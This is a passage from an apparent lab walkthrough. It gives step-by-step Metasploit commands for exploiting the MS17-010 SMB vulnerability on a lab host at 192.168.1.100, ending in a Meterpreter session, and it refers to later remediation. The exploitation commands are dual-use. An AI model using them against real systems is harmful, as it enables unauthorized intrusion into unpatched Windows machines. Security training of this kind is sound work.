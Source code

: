 Result of step 18

19. Type in the following command: msfconsole

<img width="386" alt="image" src="https://github.com/user-attachments/assets/5fcdf254-5284-4853-b2e7-ed6e93139cdf" />

Result of step 19

20. Type in the following command in the msf5 search: search MS17-010.

![image](https://github.com/user-attachments/assets/760b806b-67aa-481c-851a-31ba59108cd5)

Result of step 20

21. Type in the following command in the msf5 search: use exploit/windows/smb/ms17_010_psexec

<img width="286" alt="image" src="https://github.com/user-attachments/assets/4e08b804-f7e9-424d-bd94-e3898ca44e37" />

Result of step 21

22. Type in the following command in the msf5 search: info

<img width="461" alt="image" src="https://github.com/user-attachments/assets/07b600e7-41fe-493e-93bd-c00e1fd7315c" />

Result of step 22

23. The next step will be critical to our remediation later. Scroll down to the bottom of the info and right-click the first reference and select Open Link.​

<img width="425" alt="image" src="https://github.com/user-attachments/assets/c6b317a4-10b5-47f5-a072-c33753ed5fc5" />

Result of step 23

24. Now we are going to set the remote host to 192.168.1.100

Type in the following command in the msf5 search: set RHOSTS 192.168.1.100

<img width="434" alt="image" src="https://github.com/user-attachments/assets/2967cf1c-39ef-468c-a0c9-0e12401ee9c5" />

Result of step 24

25. Now we are going to check the system is vulnerable.

Type in the following command in the msf5 search: check

<img width="461" alt="image" src="https://github.com/user-attachments/assets/f1d64841-5005-496d-8675-52c8e3ecb880" />

Result of step 25

26. Now we are going to exploit the system.

Type in the following command in the msf5 search: exploit

<img width="463" alt="image" src="https://github.com/user-attachments/assets/56c63dde-3d9f-4343-bb6b-5d1b8e169c6a" />

Result of step 26

27. With this, we are brought to the meterpreter.
